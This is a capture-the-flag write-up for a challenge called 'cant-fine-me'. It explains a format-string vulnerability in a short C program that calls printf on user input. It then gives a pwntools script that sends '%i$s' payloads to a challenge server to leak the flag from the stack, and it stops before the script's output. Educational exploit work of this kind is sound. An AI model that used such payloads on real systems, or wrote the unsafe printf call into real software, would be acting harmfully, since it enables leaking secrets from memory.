

# cant-fine-me:
## Description:

Can you find the flag?

```
nc 129.241.209.70 29279
```
---
## The plan
We are given both the source code and the binary for this challenge. We start out by looking at the source code, which is small and straight forward. 

```c
char flag[]  = "REDACTED";

int main() {
    char *flagPointer = flag;
    char input[20];
    puts("Where to look?");
    fgets(input, 20, stdin);
    printf(input);
    return 0;
}
```

We can see that in the main function, a pointer to the flag is created, before we are asked where to look. Our input is then printed to stdout using `printf` without any formatter. 

The first parameter to the `printf` function is a format string, meaning we can specify the type of parameters we want to print. We can look at the details by typing `man 3 printf` in a terminal.

The safe way to call this function would have been `printf("%s", input)`, then the function would print our input as a string. But the way its used in this program, the user controls the first argument to printf, meaning we can control how the output is formated. lets say we send in `%p`, the program will then assume that there is a second argument to printf, and since this a 64bit binary, it will print the pointer in the register `RSI`.

From the soruce code, we can assume that there is a pointer to the flag on the stack, and by using the `%X$s` formater to print a string at a given position `X` on the stack, we should be able to find the flag eventually. 

## Exploit script

The easiest way to do this, is to create a script that tries to print all pointers on the stack as a string, one by one.

```python
from pwn import *
for i in range(100):
    io = remote('129.241.209.70', 29279)
    io.recvuntil('look?\n')
    io.sendline(f'%{i}$s')
    data = io.recvline()
    if b'KID20' in data:
        print(data)
        break
    io.close()
```
Running the scirpt:
